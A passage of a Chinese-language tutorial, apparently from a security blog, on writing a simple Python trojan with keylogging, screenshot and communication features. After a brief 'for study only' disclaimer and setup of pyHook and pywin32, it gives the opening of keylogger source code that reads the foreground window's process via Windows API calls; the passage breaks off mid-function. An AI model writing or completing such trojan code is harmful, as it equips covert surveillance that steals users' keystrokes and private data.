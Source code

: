 # Python编写简易木马程序

0x00 准备
=====

文章内容仅供学习研究、切勿用于非法用途！

这次我们使用Python编写一个具有键盘记录、截屏以及通信功能的简易木马。依然选用Sublime text2 +JEDI（python自动补全插件）来撸代码，安装配置JEDI插件可以参照这里： http://drops.wooyun.org/tips/4413

首先准备好我们需要的依赖库,python hook和pythoncom。

下载安装python hook

![enter image description here](http://drops.javaweb.org/uploads/images/1ae5d96885f893047eabf14e0839dceda421648a.jpg)

下载安装pythoncom模块：

http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/pywin32-219.win32-py2.7.exe/download

![enter image description here](http://drops.javaweb.org/uploads/images/6d05b61d811ed619153b1e1e2b6b25051f6eb0e9.jpg)

如果觉得麻烦，你可以直接使用集成了所有我们所需要的python库的商业版Activepython（我们可以用他的免费版）：

http://www.activestate.com/activepython

0x01 键盘记录器
=====

说起Keylogger，大家的思维可能早已飞向带有wifi功能的mini小硬件去了。抛开高科技，我们暂且回归本质，探探简易键盘记录器的原理与实现。

Python keylogger键盘记录的功能的实现主要利用了pythoncom及pythonhook，然后就是对windows API的各种调用。Python之所以用起来方便快捷，主要归功于这些庞大的支持库，正所谓“人生苦短，快用Python”。

代码部分：

```
# -*- coding: utf-8 -*-  
from ctypes import *
import pythoncom
import pyHook
import win32clipboard

user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None

# 
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程ID存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

```